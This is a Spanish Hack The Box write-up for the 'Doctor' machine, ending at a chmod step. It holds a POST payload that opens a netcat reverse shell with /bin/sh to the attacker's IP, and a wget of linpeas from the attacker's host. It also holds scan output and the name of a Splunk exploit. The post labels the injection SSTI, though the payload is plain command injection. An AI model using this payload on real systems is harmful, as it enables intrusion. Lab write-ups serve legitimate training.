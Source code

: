 ```yaml
---
title: Doctor HTB
author: OxDeed
date: 2020-11-10 15:29:00 -0300
categories: [Blogging, Tutorial]
tags: [splunk,ssti]
math: true
image: /assets/img/sample/doctor.png
---
```


## Resumen

Empezamos con Doctor analizando el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](https://i.ibb.co/PgbzhFX/1.png)
## /etc/hosts
Lo agregamos un nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
## doctors.htb

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](https://i.ibb.co/qrK75gr/4.png)
![Desktop View](https://i.ibb.co/JrMHpL0/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](https://i.ibb.co/d4VnQ1c/7.png)

---

## SSTI

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34)

![Desktop View](https://i.ibb.co/nr8nTH6/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 
```console
web@doctor:~$ chmod +x linpeas.sh 
```










